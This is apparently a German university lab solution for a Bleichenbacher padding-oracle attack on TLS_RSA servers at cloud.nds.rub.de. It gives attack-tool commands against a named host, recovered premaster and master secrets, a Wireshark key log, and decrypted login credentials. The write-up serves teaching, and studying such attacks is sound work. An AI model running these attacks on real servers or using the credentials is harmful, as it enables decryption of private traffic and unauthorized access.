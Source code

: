 ```
Auf dem Server cloud.nds.rub.de laufen 2 TLS Server (mit HTTPS) welche 
unterschiedliche konfiguriert sind:

cloud.nds.rub.de:40064 
cloud.nds.rub.de:40157

Beide Server sind mit demselben Zertifikat ausgestattet. Es ist ihnen gelungen 
die verschlüsselte Kommunikation eines Login Versuchs auf den Server 
cloud.nds.rub.de:40157 aufzuzeichnen.
Die Aufzeichnung finden Sie im angehängten PCAP-File.
```

### Docker Container erstellen

[Dockerfile](./Dockerfile)
```
# build image
$ docker build --tag bleichenbacher-java11 .

# run container
$ docker run --rm --name bleichenbacher java11-bleichenbacher:latest java -jar Attacks.jar bleichenbacher -connect cloud.nds.rub.de:40064
```

## Lösung

> 1. Welche Cipher Suite wurde in der Verbindung ausgehandelt?

Cipher Suite: TLS_RSA_WITH_AES_128_GCM_SHA256 (0x009c)

> 2. Kann die ausgehandelte Cipher Suite potenziell mit dem Bleichenbacher Angriff entschlüsselt werden?

Ja, da Schlüsselvereinbarung TLS_RSA ist.

> 3. Wie lauten die Nonces von Client und Server?

Client Nonce: `c111e13ad7249436640715c126decb2c8bcc94b7212002488af14a5e93786781`  
Server Nonce: `23fccc8f2fd92329371261bc96172cb8c9e55eea5a5524572bf7c4243bea5b52`

> 4. Wie lautet das verschlüsselte Premastersecret das der Client an den Server überträgt?

PMS: `533cca14ae7287d7c9f19484d305c6eab2cbe450ea3d69654884be6e253b1682963f263fef48895d2552454a21466776ecf020c3e7fb8373aa5a533be7e7b655823f5fdd2de1e02fe9936055684791412f19c5bdb32bcd359d986688b849938e119207c55910b0dc687f9a736a8664f17839970afcd903fe77a8df53d48d4cb3`

> 5. Analysieren sie die beiden Server auf ihre Verwundbarkeit für den Bleichenbacher-Angriff. Welcher Server ist verwundbar?

Verwundbar:
```bash
java -jar Attacks.jar bleichenbacher -connect cloud.nds.rub.de:40064
```

Nicht verwundbar:
```bash
java -jar Attacks.jar bleichenbacher -connect cloud.nds.rub.de:40157
```

> 6. Beobachten sie während des Tests den Handshake zu dem verwundbaren Server. Welchen Verhaltensunterschied zeigt der Server bei korrekt oder falsch gepaddeten ClientKeyExchange Nachrichten?

Der verwundbare Server unterscheidet zwischen `Handshake Failure` und `Bad Record MAC`.  
Der nicht-verwundbare schickt immmer einen `Bad Record MAC`.

> 7. Wie lautet das entschlüsselte Premaster Secret?

PKCS1.5 kodierte PMS
```
2389e4b6e8b87cc64d5d4f66744faaec304a7877ca7ea3b2e78f325b5a6037d2f4105814a02fb4be7c42f3dc53a8be161a1e314e244095975c7f6d8c4d289fdd2ecc9b13e342ccb0c1d8f5d8690000303e7d9d453c649d684b168428dc67cc46c7b68eb20584ecd9ce45c95d444a3074d646b7aafd991dfe1495f65b03fba
```

Nur das PMS
```
0303e7d9d453c649d684b168428dc67cc46c7b68eb20584ecd9ce45c95d444a3074d646b7aafd991dfe1495f65b03fba
```

> 8. Nutzen Sie nun ihr Wissen und die Tools aus vorherigen Übungen, um das Mastersecret der Verbindung des PCAP-Files zu berechnen. Wie lautet dieses? Hinweis: Wenn Sie alles richtig gemacht haben, beginnt Ihr Mastersecret mit 0xb67cc1

Skript: [calculate-master-secret.py](./calculate-master-secret.py)
```
$ python calcualte-master-secret.py
b67cc1e784858f016119d120cd626d3f2429861e725da693432c8e710ad3bf53c7c2cdabc9a75beb6663e222c2c790ff
```

> 9. Nutzen sie nun Wireshark und das Mastersecret, um die komplette Verbindung zu entschlüsseln. Wie lauten Benutzername und Passwort der BasicAuthentication?

Mit Wireshark lässt sich eine [Logdatei](./ssl.log) erzeugen
```
RSA 533cca14ae7287d7 0303e7d9d453c649d684b168428dc67cc46c7b68eb20584ecd9ce45c95d444a3074d646b7aafd991dfe1495f65b03fba
RSA Session-ID:00 Master-Key:b67cc1e784858f016119d120cd626d3f2429861e725da693432c8e710ad3bf53c7c2cdabc9a75beb6663e222c2c790ff
CLIENT_RANDOM c111e13ad7249436640715c126decb2c8bcc94b7212002488af14a5e93786781 0303e7d9d453c649d684b168428dc67cc46c7b68eb20584ecd9ce45c95d444a3074d646b7aafd991dfe1495f65b03fba
PMS_CLIENT_RANDOM c111e13ad7249436640715c126decb2c8bcc94b7212002488af14a5e93786781 0303e7d9d453c649d684b168428dc67cc46c7b68eb20584ecd9ce45c95d444a3074d646b7aafd991dfe1495f65b03fba
```
Damit kann Wireshark alle TLS-Nachrichten entschlüsseln.

Credentials: `bl3ich3nb4ch3r:opPyCsQzUNjN7iuhYhQR`  
Video: `https://cloud.nds.rub.de:40157/ILIKETHIS.webm`
